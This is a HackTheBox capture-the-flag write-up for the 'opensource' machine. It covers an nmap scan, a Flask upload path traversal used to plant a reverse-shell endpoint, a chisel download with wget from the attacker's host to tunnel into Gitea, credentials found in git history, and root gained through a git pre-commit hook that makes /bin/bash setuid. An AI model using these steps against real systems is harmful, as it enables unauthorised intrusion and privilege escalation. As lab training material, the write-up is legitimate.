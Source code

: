 Hello and welcome to my next write up. This will be on Hackthebox box called opensource. 
Let's jump right into it.

First we will start nmap to see which ports are open. 

```
# nmap -T4 -sC -sV -p- 10.10.11.164        
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-10 08:33 EDT
Nmap scan report for 10.10.11.164 (10.10.11.164)
Host is up (0.061s latency).
Not shown: 65532 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1e:59:05:7c:a9:58:c9:23:90:0f:75:23:82:3d:05:5f (RSA)
|   256 48:a8:53:e7:e0:08:aa:1d:96:86:52:bb:88:56:a0:b7 (ECDSA)
|_  256 02:1f:97:9e:3c:8e:7a:1c:7c:af:9d:5a:25:4b:b8:c8 (ED25519)
80/tcp   open     http    Werkzeug/2.1.2 Python/3.10.3
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Sat, 10 Sep 2022 12:34:25 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5316
|     Connection: close
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>upcloud - Upload files for Free!</title>
|     <script src="/static/vendor/jquery/jquery-3.4.1.min.js"></script>
|     <script src="/static/vendor/popper/popper.min.js"></script>
|     <script src="/static/vendor/bootstrap/js/bootstrap.min.js"></script>
|     <script src="/static/js/ie10-viewport-bug-workaround.js"></script>
|     <link rel="stylesheet" href="/static/vendor/bootstrap/css/bootstrap.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-grid.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-reboot.css"/>
|     <link rel=
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Sat, 10 Sep 2022 12:34:25 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-server-header: Werkzeug/2.1.2 Python/3.10.3
|_http-title: upcloud - Upload files for Free!
3000/tcp filtered ppp
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
------snip-------
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.85 seconds
```

There are two ports open it is 22 which is ssh and 80 which is http and port 3000 which is filtered. Not much we can do with the ssh as the version doesn't have any known vulnerabilities. So let's visit the web page. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Opensource/images/opensource_web.png?raw=true)

We see that there is download button we we're gonna download the source for the page. It's running python so we can take a guess that it 
will be flask application. As this is `.git` let's see which branches are there with the command `git branch`. There are two `dev` and 
`public`. We will switch to dev as it is more likely to leak more things because developers could forget to delete something before posting it online.
In flask web apps there is a `views.py` file which is best place to start looking at the code as it
is convenient because we can see the endpoints this app has. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Opensource/images/opensource_web_source1.png?raw=true)

There are four 
routes defined for the app. We can see that there is upcloud endpoint with upload file functionality. The only function that is interesting
and not totally basic is `os.path.join` where we look up vulnerabilities for this function or just documentation we'll find out that
if we specify absolute path it will discard everything else and just use that. Also in `configuration.py` there is `DEBUG=True` so we can
visit endpoint `/uploads/whatever` there is debug page which leaks that the `views.py` is in `/app/app/views.py`

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Opensource/images/opensource_web_debug.png?raw=true)

Now the easiest way to get shell here is to upload our own malicious `views.py` file and create our own endpoint that will give us reverse shell.
We will use python reverse shell from great repo https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python . Just copy some other route and replace its contents with our shell.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Opensource/images/opensource_views_changed.png?raw=true)

We will need to catch the upload request in burpsuite to change the name of the file that we are uploading.
U can send the request to repeater and send it from there which is good if something failed or you can just send it from the proxy tab.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Opensource/images/opensource_burp_request.png?raw=true)

We will set up netcat listener and on visiting http://10.10.11.164/rev or whatever name you defined the endpoint as it will give us reverse shell.
If we try to stabilize the shell it gives us error because there is no bash so let's just use `/bin/sh`

```
/app # ^[[1;8Rpython3 -c 'import pty;pty.spawn("/bin/sh")'
python3 -c 'import pty;pty.spawn("/bin/sh")'
/app # ^[[3;8R^Z
zsh: suspended  nc -lvnp 4242
                                                                                                                                                                                                                                             
┌──(root💀kali)-[~]
└─# stty raw -echo; fg                                                                                                                                                                                                             
[1]  + continued  nc -lvnp 4242

/app # 
```
If we use id it tells us that we are root but i didn't think it would be that easy. In `/` directory do `ls -la` and you will
see `.dockerenv` in there which means that we are in docker container. 

```
/ # ls -la
total 72
drwxr-xr-x    1 root     root          4096 Oct 19 19:46 .
drwxr-xr-x    1 root     root          4096 Oct 19 19:46 ..
-rwxr-xr-x    1 root     root             0 Oct 19 19:46 .dockerenv
--------------snip--------------
```

We remember that there is port 3000 which is filtered. Time to use chisel to create tunnel. We will download it from https://github.com/jpillora/chisel and start python server in the directory in which it is with `# python3 -m http.server 8000`. Then use `wget` in `/tmp` directory `/tmp # wget http://10.10.14.187:8000/chisel`. Now we will run it in server mode on our machine `# ./chisel -p 9001 --reverse` and as client on the 
opensource box `/tmp # ./chisel client localhost:8000 R:3000:172.17.0.1:3000` the ip adress we use here is the one from `ifconfig` 
command but ending with `1` because it is used as ip adress for gateway. Don't forget to do `chmod +x chisel` to make it executable.
Then visit `localhost:3000`

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Opensource/images/opensource_gitea.png?raw=true)

There is gitea. There is a sign in but we don't have any credentials. But we have the `.git` we can try to look for credentials there.
`git log ` shows 4 commits. With `git show <commit id>` we will go one by one to see changes made in that commit. And in one of them 
there are credentials. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Opensource/images/opensource_git_show.png?raw=true)

With that login and get in. If we look around we will find `.ssh` with id_rsa key. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Opensource/images/opensource_git_id_rsa.png?raw=true)

Now let's copy it into our machine and set rights with
`chmod 600 id_rsa` now we can login with ssh as dev01 and get user flag.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Opensource/images/opensource_user.png?raw=true)

`sudo -l` gives us nothing and Linpeas won't help us either. 
Let's try to transfer pspy from our machine to the box to see if there isn't something running that we didn't find. 
It shows us cronjob that is running every minute doing backup of dev01 home directory. 

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/HackTheBox-Write-Ups/Opensource/images/opensource_git_backup.png?raw=true)

We can use this to our advantage
and abuse git hooks. In dev01 home directory is `.git`. .sample files will be skipped. Easiest way is to change `/bin/bash`
to set uid so we can keep its root permission. And change the file permissions to be executable.

```
dev01@opensource:~/.git/hooks$ echo -e '#!/bin/sh\n chmod +s /bin/bash' > pre-commit
dev01@opensource:~/.git/hooks$ chmod +x pre-commit
```

```
dev01@opensource:~/.git/hooks$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr 18  2022 /bin/bash
dev01@opensource:~/.git/hooks$ ./bin/bash -p
-bash: ./bin/bash: No such file or directory
dev01@opensource:~/.git/hooks$ /bin/bash -p
bash-4.4# id
uid=1000(dev01) gid=1000(dev01) euid=0(root) egid=0(root) groups=0(root),1000(dev01)
```

After a minute bash becomes setuid and with `/bin/bash -p` we get root shell and can now read the root.txt and our job here 
is finished.

Thank you for reading this write up. If you have any suggestions, questions or just want to play CTFs with someone reach me out 
on Twitter or wherever else you can find me.
https://twitter.com/Vojtech1337
